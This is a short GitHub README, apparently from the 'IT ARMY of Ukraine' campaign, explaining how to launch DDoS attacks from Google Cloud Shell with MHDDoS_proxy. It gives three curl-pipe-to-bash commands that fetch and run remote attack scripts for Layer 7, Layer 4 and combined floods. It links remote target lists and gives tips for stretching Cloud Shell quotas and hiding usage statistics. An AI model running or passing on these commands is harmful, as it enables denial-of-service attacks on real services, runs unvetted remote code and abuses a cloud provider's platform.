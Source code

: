## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
#### по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
#### по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
```
#### Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4


#
#
IT ARMY of Ukraine
